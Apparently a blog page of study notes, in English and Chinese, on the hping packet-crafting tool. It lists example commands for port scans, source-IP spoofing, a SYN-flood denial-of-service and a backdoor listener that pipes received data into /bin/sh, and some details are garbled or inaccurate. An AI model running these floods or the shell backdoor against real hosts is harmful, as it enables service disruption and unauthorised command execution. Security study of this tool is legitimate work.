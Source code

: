 ```yaml
---
title: Meow's Testing Tools - hping
date: 2019-09-17 11:11:11 -0400
categories: [CyberAttack, CyberAttackTools]
tags: [CyberAttack, CyberAttackTools]
toc: true
image:
---
```


# hping

[toc]

---

# Hping
- Hping (Hping2 or Hping3) is another powerful tool for both ping sweeps and port scans
  - a handy packet-crafting tool for TCP/IP.
  - works on Windows and Linux versions
  - runs nearly any scan Nmap can put out.
  - downside, command-line-only tool.


- a command-line TCP/IP packet assembler and analyzer tool
- send customized TCP/IP packets and display the target reply as ping command display the `ICMP Echo Reply packet` from targeted host.
- Hping can also handle fragmentation, arbitrary packets body, and size and file transfer.
- It supports `TCP, UDP, ICMP and RAW-IP` protocols.
- Using Hping, the following parameters can be performed:
  - Test firewall rules.
  - Advanced port scanning.
  - Testing net performance.
  - Path MTU discovery.
  - Transferring files between even fascist firewall rules.
  - Traceroute-like under different protocols.
  - Remote OG fingerprinting & others.

￼![Screen Shot 2019-12-02 at 14.38.32](https://i.imgur.com/dLaXTxs.png)
￼
`-i` –interval wait (uX for X microseconds, for example -i u1000)

Modede

fault mode TCP
- `-0`: RAW IP mode
- `-1`: ICMP mode
- `-2`: UDP mode
- `-8`: SCAN mode.
- `-9`: listen mode

![page91image152294272](https://i.imgur.com/xEaDBuv.jpg)


- Hping 設定SYN Flag, (收到SYC/ACK代表Port有開)
  - 目標怎麼回代表防火牆是open
  - `Hping 10.1.1.1 –c2 –S(SYN) –p21 -n`
  - *Port open*：`SYN/ACK`
  - *Port closed*：`ICMP Unreachable type 13`  *packet filter firewall*

---

## Example

`hpings –A IP` create an ACK packet:

![Pasted Graphic 4](https://i.imgur.com/Q53gnqB.png)

`hpings -8 1-600 –S IP`: create GVN scan against different ports:

￼![Pasted Graphic 5](https://i.imgur.com/fNu5d8z.png)

spoof source IP addresses and source ports.
`hping3 -a 10.8.8.8 -S  springfield   -c 2 -p 80`

Dos Attack:
`hping3 -i ul -S -p 80 192.168.1.10`

Pings (ICMP echo requests) being blocked:
`hping3 -S  www.baidu.ss -p 80`


Uptime: `hping2 -p 80 -S --tcp-timestamp host`

PortScan: `hping –I eth0 --scan 20-25,80,443 -S host`

Synflood: `hping –p 80 –i u10000 –a source –S host`


Backdoor:

S-: `hping3 -I eth1 -9 secret | /bin/sh`

C-: `hping3 -R ip -e secret -E command_file -d 100 -c 1`










.
